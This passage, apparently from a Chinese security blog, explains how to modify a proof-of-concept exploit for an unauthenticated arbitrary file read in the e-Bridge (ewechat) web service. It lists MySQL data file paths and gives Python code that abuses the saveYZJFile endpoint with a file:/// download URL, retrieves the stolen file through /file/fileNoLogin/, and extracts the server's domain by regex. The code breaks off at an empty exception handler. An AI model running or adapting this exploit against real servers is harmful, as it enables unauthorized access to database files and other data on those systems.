 ```
C:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd
D:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd
E:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd
F:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd
/usr/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd
```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c2ics1CwibqyMjQqsnrvib0uMrqO1JRrWhMFga0ANmr3rIeeyAj4oIVGeYA/640?wx_fmt=png)

这里对 mysql 文件的一个说明

```
1、如果表b采用MyISAM，data\a中会产生3个文件：
b.frm ：描述表结构文件，字段长度等
b.MYD(MYData)：数据信息文件，存储数据信息(如果采用独立表存储模式)
b.MYI(MYIndex)：索引信息文件。

2、如果表b采用InnoDB，data\a中会产生1个或者2个文件：
b.frm ：描述表结构文件，字段长度等
如果采用独立表存储模式，data\a中还会产生b.ibd文件（存储数据信息和索引信息）
如果采用共存储模式的，数据信息和索引信息都存储在ibdata1中
如果采用分区存储，data\a中还会有一个b.par文件（用来存储分区信息）
我们可以看到域名存在主要有两个文件wx_base_sysinfo.ibd和ibdata1，其中后者是 数据信息和索引信息都存储 ，这个数据量太大了，而且不安全。。。不建议查这个文件，避免不必要的麻烦
我们直接查前面那个ibd文件就可以获取域名啦
```

那么和之前写检测 POC 一样，我们把检测文件替换成 wx_base_sysinfo.ibd 即可。

修改的代码:

```
def poc(url):
    urlparse_oj = parse.urlparse(url) #格式化url
    proc = urlparse_oj.scheme #提取http协议类型
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36",
    }
    try:
        #paths = ['C:/ebridge/mysql/my.ini','D:/ebridge/mysql/my.ini','E:/ebridge/mysql/my.ini','F:/ebridge/mysql/my.ini']
        paths = ['D:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd','/usr/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd','C:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd','E:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd','F:/ebridge/mysql/data/ewechat/wx_base_sysinfo.ibd'] #这里替换成存域名的数据库文件
        for i in paths:
            payload1 = '/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///%s&fileExt=txt'%i
            new_url1 = url + payload1
            res1 = requests.get(new_url1, verify=False, allow_redirects=False, headers=headers, timeout=15) #第二次请求，获取随机生成的id值
            try:
                id = res1.json()['id']
                if id: #如果值存在则读取对应id的文件内容，不存在继续循环。
                    new_url2 = url + '/file/fileNoLogin/' + id
                    res2 = requests.get(new_url2, verify=False, allow_redirects=False, headers=headers, timeout=15)
                    re_rule = re.compile(proc+'\x3A\x2F\x2F(([a-zA-Z\x2d\5f]*\x2e){1,7}[a-zA-Z]{1,7})(:\d{1,4})?') #这里通过正则匹配一下读取到的包含域名的url，其实我这个正则写的不够严谨，端口这里可能会有个别出现不对的情况，大哥们可以自行修改正则表达式
                    res_re = re_rule.search(res2.text).group(0)
                    new_host = res_re
                    # 由于这里正则表达式匹配出来的还存在一些问题，因此我这里经过再一次处理尽可能地减少错误判断
                    new_url3 = new_host + '/file/fileNoLogin/' + id
                    return new_url3

            except:
                continue
    except Exception as e:
```